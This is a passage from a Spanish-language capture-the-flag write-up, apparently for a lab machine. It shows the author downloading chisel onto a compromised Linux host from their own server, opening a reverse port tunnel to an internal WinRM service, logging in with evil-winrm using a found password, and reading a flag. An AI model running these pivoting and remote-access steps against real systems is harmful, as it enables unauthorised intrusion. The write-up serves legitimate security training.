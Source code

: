 
Ahora, tenemos que acceder al servicio WinRM para probar esta credencial, pero como solamente la máquina Linux puede ver ese servicio vamos a necesitar de [chisel](https://github.com/jpillora/chisel) para efectuar una redirección de puertos hacia nuestra máquina.

Subamos el binario a la máquina para mandarnos el puerto, un simple servidor http de Python bastará para poder hacerlo

```bash
root@icinga:~/.local# wget http://10.10.16.59:8000/chisel
--2023-08-03 18:39:37--  http://10.10.16.59:8000/chisel
Connecting to 10.10.16.59:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8384512 (8.0M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   8.00M   473KB/s    in 90s     

2023-08-03 18:41:08 (90.8 KB/s) - 'chisel' saved [8384512/8384512]
```

Ahora, ejecutemóslo en nuestra máquina y la comprometida

```bash
❯ ./chisel server -reverse -p 8081
2023/08/03 14:42:29 server: Reverse tunnelling enabled
2023/08/03 14:42:29 server: Fingerprint 7P9BpPVkAAJSXYibUTWKa2PFBn7nisoMxMO9gckqc28=
2023/08/03 14:42:29 server: Listening on http://0.0.0.0:8081
```

```bash
root@icinga:~/.local# ./chisel client 10.10.16.59:8081 R:172.16.22.1:5985 
```
> Utilizo el puerto 8081 para chisel ya que BurpSuite ocupa el 8080.
{: .prompt-tip }

Desde nuestra máquina ahora podremos interactuar con WinRM, y probando comprobamos que las credenciales son correctas

```bash
❯ evil-winrm -i 127.0.0.1 -u matthew -p 147258369

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\matthew\Documents>
```

Como siempre, la flag está en la carpeta Desktop.

```powershell
*Evil-WinRM* PS C:\Users\matthew\Desktop> ls -Force


    Directory: C:\Users\matthew\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        1/22/2023  11:22 AM            282 desktop.ini
-ar---         8/2/2023  10:43 PM             34 user.txt


*Evil-WinRM* PS C:\Users\matthew\Desktop> cat user.txt
cb37f170c2a6808df1e2fd9d51******
```
